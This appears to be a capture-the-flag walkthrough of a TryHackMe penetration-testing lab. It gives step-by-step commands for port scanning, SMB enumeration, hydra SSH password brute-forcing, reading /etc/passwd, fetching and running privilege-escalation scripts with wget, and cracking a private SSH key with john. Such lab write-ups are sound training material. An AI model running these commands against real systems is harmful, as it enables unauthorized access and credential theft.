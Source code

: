 ```yaml
---
description: https://tryhackme.com/room/basicpentestingjt
---
```


# Basic Pentesting

Wrap-UP:

1.  use **nmap** to scan the open ports

    ```
    nmap -sV <ip>
    ```
2. use **gobuster** to enumerate hidden folders in web server\
   Syntax: gobuster -u \[HTTP://ip] -w \[wordlist]\
   gobuster dir -u http://ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \

3.  use **Enum4Linux** to scan the whole system\
    Syntax: Enum4linux -a \[IP]\
    Instead of grabbing user information from Enum4Linux output, we can scan smb to get information:\
    Syntax: smbclient \[IP]//\[smb share] -U \[username, if applicable]\
    ![](<../.gitbook/assets/image (5) (1).png>)\
    Connect:\


    ```
    smbclient //<IP>/anonymous

    staff.txt:
    Announcement to staff:

    PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
    this is how mistakes happen. (This means you too, Jan!)

    -Kay
    ```
4.  Use **hydra** to brutal-forcing the password:\
    Syntax: hydra -l \[username] -P \[wordlist] \[IP] \[service]\
    OR\
    Syntax: hydra -l \[username] -P \[wordlist] \[service://IP]\
    \


    ```
    hydra -l jan -P /usr/share/wordlists/rockyou.txt <IP> ssh


    ```
5.  login with the credentials get from previous steps.\


    ```
    cat /etc/passwd

    SSH into the machine using the discovered credentials (user: jan):

    ssh jan@<target-ip-address>
    ```
6.  Use **privilege escalation tool like LinEnum or Linpeas**\
    transport the linpeas:\
    scp \[linenum.sh] \[user@ip]\
    use linenum.sh to scan:\
    ./linenum.sh | tee long.txt\
    \


    Start a Python HTTP server to transfer scripts from your local machine to the target:

    > python3 -m http.server — bind \<your-tun0-ip> 8000
    >
    > \
    > ![](<../.gitbook/assets/image (8).png>)\
    >
    >
    > On the target machine, download the script:
    >
    > > wget http://\<your-tun0-ip>:8000/\<script-file-name>\
    > > \
    > > \
    > >
    > >
    > > Make the script executable and run it:
    > >
    > > > chmod +x \<script-name>\
    > > > ./\<script-name>
    > >
    > > \
    > > ![](<../.gitbook/assets/image (9).png>)\
    > > \
    > > chmod 600 id\_rsa
7. From task 6 we can find the id\_rsa hash key for kay to login. Copy the file to the local machine and use john to crack the hash file.\
   Syntax: **ssh2john** \[file] > hash.txt\
   &#x20;    ssh2john id\_rsa > john-pass\
   Crack the hash file password:\
   Syntax: john hash.txt — wordlist=\[wordlist]\
   john — wordlist=/usr/share/wordlists/rockyou.txt john-pass\
   ![](<../.gitbook/assets/image (11).png>)
8.  ssh to the new user with cracked rsa\_id\


    SSH into user `kay` using the cracked key:

    > ssh -i id\_rsa kay@\<target-ip>\
    > ![](<../.gitbook/assets/image (12).png>)\
    > \
    > ![](<../.gitbook/assets/image (13).png>)
